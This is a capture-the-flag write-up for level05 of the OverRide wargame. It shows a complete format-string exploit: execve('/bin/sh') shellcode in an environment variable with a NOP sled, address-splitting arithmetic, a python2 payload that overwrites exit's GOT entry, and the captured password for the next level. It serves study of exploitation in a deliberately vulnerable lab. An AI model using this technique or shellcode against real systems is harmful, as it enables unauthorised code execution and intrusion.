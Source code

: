 # level 04

## get_binary

```shell
scp -P 4242 level05@192.168.0.0:/home/users/level05/level05 level05.bin
```

## Exploit

### printf

```shell
level05@OverRide:~$ ./level05 
BBBB %10$p        
bbbb 0x62626262
```

### shellcode

* shellcode (https://www.exploit-db.com/exploits/42428) : `\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80`

```shell
export SHELLCODE=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")
#Address of shellcode : `0xffffd8aa`
```

```shell
ffffd8aa_16 = 4294957226_10 > INT_MAX
# Split
0xd8aa --> 55466 --> 55458 + 8
0xffff --> 65535 --> 10069 + 55458 + 8
```

### Overwrite exit

```shell
#08048370 <exit@plt>:
# 8048370:       ff 25 e0 97 04 08       jmp    DWORD PTR ds:0x80497e0
# 8048376:       68 18 00 00 00          push   0x18
# 804837b:       e9 b0 ff ff ff          jmp    8048330 <_init+0x38>

0x80497e0                   --> \xe0\x97\x04\x08
0x80497e0 + 2 = 0x80497e2   --> \xe2\x97\x04\x08

(gdb) x/xw 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
(gdb) x/xw 0x80497e2
0x80497e2 <exit@got.plt+2>:     0x54200804

python2.7 -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55458x" + "%10$n" + "%10069x" + "%11$n")' > /tmp/exploit.txt
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
